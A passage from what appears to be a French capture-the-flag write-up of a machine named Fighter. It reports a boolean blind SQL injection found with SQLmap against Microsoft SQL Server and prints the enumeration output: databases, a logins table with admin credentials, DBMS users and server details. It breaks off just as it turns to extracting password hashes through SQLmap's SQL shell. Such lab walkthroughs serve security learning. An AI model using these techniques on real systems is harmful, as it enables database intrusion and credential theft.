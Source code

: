 *SQLmap* a bien retrouvé l'injection, à savoir une injection SQL en aveugle de type booléen avec la possibilité d'utiliser UNION sur 6 colonnes. En revanche il ne semble pas possible d'enchaîner (stack) les requêtes (mettre un point virgule suivi d'une autre requête SQL), ce qui est pourtant souvent le cas avec MSSQL :(   

Voici différentes informations que j'ai récupéré sur la machine en jouant avec les différentes options de *SQLmap* :  

```plain
available databases [5]:
[*] master
[*] model
[*] msdb
[*] tempdb
[*] web

current user:    'web'

Database: web
Table: _logins
[1 entry]
+------+-------+------+-------+----+-------------------+
| id   | _u    | _p   | _n    | _l | _e                |
+------+-------+------+-------+----+-------------------+
| NULL | admin | test | Admin | 1  | admin@nowhere.com |
+------+-------+------+-------+----+-------------------+

database management system users [16]:
[*] ##MS_AgentSigningCertificate##
[*] ##MS_PolicyEventProcessingLogin##
[*] ##MS_PolicySigningCertificate##
[*] ##MS_PolicyTsqlExecutionLogin##
[*] ##MS_SmoExtendedSigningCertificate##
[*] ##MS_SQLAuthenticatorCertificate##
[*] ##MS_SQLReplicationSigningCertificate##
[*] ##MS_SQLResourceSigningCertificate##
[*] BUILTIN\Users
[*] FIGHTER\Administrator
[*] NT AUTHORITY\SYSTEM
[*] NT Service\MSSQL$SQLEXPRESS
[*] NT SERVICE\SQLWriter
[*] NT SERVICE\Winmgmt
[*] sa
[*] web

hostname:    'FIGHTER\SQLEXPRESS'

web server operating system: Windows 8.1 or 2012 R2
web application technology: ASP.NET, Microsoft IIS 8.5, ASP
back-end DBMS: Microsoft SQL Server 2012
```

Pour une raison inconnue, l'extraction des hashs des comptes SQL (via *--passwords*) ne fonctionnait pas mais en tapant la requête SQL directement (via l'invite obtenue avec l'option *--sql-shell*) cela fonctionne :  
